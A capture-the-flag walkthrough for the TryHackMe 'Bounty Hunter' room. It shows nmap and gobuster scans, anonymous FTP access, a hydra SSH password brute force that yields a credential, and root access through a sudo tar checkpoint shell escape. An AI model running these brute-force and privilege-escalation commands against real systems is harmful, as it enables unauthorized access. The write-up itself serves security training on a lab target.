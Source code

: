 # Bounty Hunter

**Room Link:** [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH&#x20;

anonymous login works

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l lin -P locks.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

```
Username: lin
Password: RedDr4gonSynd1cat3
```

**Kali**

```
ssh lin@$VICTIM
```

## Privlege Escalation&#x20;

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>







